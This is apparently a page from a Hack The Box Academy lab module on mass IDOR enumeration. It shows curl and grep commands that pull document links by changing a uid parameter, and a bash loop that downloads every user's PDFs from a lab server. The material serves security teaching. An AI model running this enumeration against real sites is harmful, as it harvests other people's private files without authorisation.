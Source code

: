 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/134/section/1186
// Platform Version: V1
// Module ID: 134
// Module Name: Web Attacks
// Module Difficulty: Medium
// Section ID: 1186
// Section Title: Mass IDOR Enumeration
// Page Title: Hack The Box - Academy
// Page Number: 8
-->

# Mass IDOR Enumeration

**Module Name:** Web Attacks **Page Number:** 8

#### 

#### WEB ATTACKS

# Mass IDOR Enumeration

## Insecure Parameters

![https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_employee_manager.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_employee_manager.jpg)

![https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_documents.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_documents.jpg)

``` html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

![https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_documents.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_documents.jpg)

``` html
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

## Mass Enumeration

``` html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

``` shell-session
[!bash!]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

``` shell-session
[!bash!]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

``` bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

# 

# 

#### Questions

####